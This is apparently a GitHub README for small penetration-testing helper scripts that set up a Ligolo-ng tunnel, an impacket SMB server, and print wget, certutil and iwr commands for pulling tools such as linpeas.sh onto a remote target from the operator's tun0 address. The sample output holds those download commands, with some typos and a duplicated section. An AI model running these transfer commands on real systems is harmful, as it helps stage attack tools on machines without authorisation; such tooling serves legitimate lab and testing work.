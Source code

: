 # PopScripts

## liggy
This script exists to automate the setup of the Ligolo-ng (https://github.com/nicocha30/ligolo-ng) proxy. It requires Ligolo to be in the /opt folder. It requires an IP range to set up a tunnel, but it will accept a specific IP range or a single IP and convert to the IP range of 0/24. 

Run `sudo chmod +x /opt/liggy/liggy.sh && ln -s /opt/liggy/liggy.sh /usr/local/bin/liggy` to be able to call it as liggy from any directory. 

## served
This script prints cerutil, iwr, and wget commands to be run on a remote target to download files from your machine. The default IP is your tun0 (-IP), the default port (-p) is 80, and the default file (-f) is `file`, but the script can be run with any of those flags. 

Run `sudo chmod +x /opt/PopScripts/served.sh && ln -s /opt/PopScripts/served.sh /usr/local/bin/served` to be able to call it as liggy from any directory. 

Ex: `served -p 443 -f linpeas.sh`
Output:
`wget http:{tun0}:443/linpeas.sh`
`certutil.exe -f -split -urlcache http:{tun0}:443/linpeas.sh -o linpeas.sh`
`iwr -uri http://{tun0]:443/linpeas.sh -o linpeas.sh`

## speedysmb

This script exists to automate the creation of an impacket-smbserver (https://github.com/fortra/impacket/blob/master/examples/smbserver.py) by requesting a username and password, and then printing the commands that need to be run on a remote machine to transfer files. 

Run `sudo chmod +x /opt/PopScripts/speedysmb.sh && ln -s /opt/PopScripts/speedysmb.sh /usr/local/bin/speedysmb` to be able to call it as speedysmb from any directory.

## liggy
This script exists to automate the setup of the Ligolo-ng (https://github.com/nicocha30/ligolo-ng) proxy. It requires Ligolo to be in the /opt folder. It requires an IP range to set up a tunnel, but it will accept a specific IP range or a single IP and convert to the IP range of 0/24. 

Run `sudo chmod +x /opt/PopScripts/liggy.sh && ln -s /opt/PopScripts/liggy.sh /usr/local/bin/liggy` to be able to call it as liggy from any directory. 


## to create symbolic links for all of them

Run `sudo chmod +x /opt/PopScripts/served.sh && chmod +x /opt/PopScripts/speedysmb.sh chmod +x /opt/PopScripts/liggy.sh && ln -s /opt/PopScripts/served.sh /usr/local/bin/served && ln -s /opt/PopScripts/speedysmb.sh /usr/local/bin/speedysmb && ln -s /opt/PopScripts/liggy.sh /usr/local/bin/liggy`

Or run `sudo ./link.sh`

